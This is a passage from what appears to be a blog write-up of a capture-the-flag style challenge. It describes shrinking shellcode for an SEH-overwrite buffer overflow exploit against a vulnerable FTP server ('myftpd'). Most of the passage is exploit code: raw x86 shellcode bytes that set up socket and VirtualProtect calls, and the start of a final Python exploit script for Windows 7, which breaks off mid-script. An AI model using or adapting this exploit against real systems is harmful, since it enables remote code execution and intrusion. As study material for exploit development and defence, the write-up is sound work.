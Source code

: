 I came to realise that pushing byte values to the stack was actually really small and didn't use any bad chars. Hence I changed things up to look like this:

``` python
# set up the stack for the call to `socket`
shellcode += "\x6A\x06"                           # PUSH 6
shellcode += "\x6A\x01"                           # PUSH 1
shellcode += "\x6A\x02"                           # PUSH 2
```

Again down from `8` bytes to `6`, giving us another `2` bytes in the pocket.

### Saving 4 - VirtualProtect params

The call to `VirtualProtect` requires a parameter that is a valid point which will receive the previous memory protection on return. Previously I was offsetting from `ESP` to make sure that the address was valid and writable. It looked like this:

``` python
# set up virtual protect call
shellcode += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
shellcode += "\x8D\x44\x24\xDC"                   # LEA EAX, [ESP-0x24]
shellcode += "\x50"                               # PUSH EAX
```

I have since realised that the `EBP` register actually falls within a valid memory area for just this purpose, so instead of doing an offset calculation and then a push, I just pushed `EBP` instead:

``` python
# set up virtual protect call
shellcode += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
shellcode += "\x55"                               # PUSH EBP
```

This cut another `4` bytes off the payload. W00t!

## The Final Exploit

The changes made to the shellcode resulted in a total of `8` bytes shaved off, which combined with the jump reshuffle made the payload fit into memory with room to spare! Happy with that. Before I reveal the final exploit I'd like to mention a couple of things:

* This approach didn't work on Windows XP, and hence the old exploit which works on XP I had to keep around.
* This approach still _does not work_ with Vista. The shellcode space on Vista is even smaller and I have yet to put the effort in to find another approach which fits within the memory constraints.
* It also doesn't work on Windows 8, but I haven't attached a debugger to it to figure out why just yet.

At this point I think I'll move onto another challenge (perhaps something more real world?). And so without further delay, here it is:

``` python
#!/usr/bin/python

import socket, struct, time, sys

def windows_7(target):
  seh_offset = 354
  nseh_offset = seh_offset - 4
  sc_len = 0x54
  sc_offset = nseh_offset - sc_len

  ppr = struct.pack("<L", target['PPR'])

  shellcode  = ""
  # Adjust the stack to prevent it from breaking things in our shellcode
  shellcode += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
  # Get the address of `socket` into EBX
```

  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization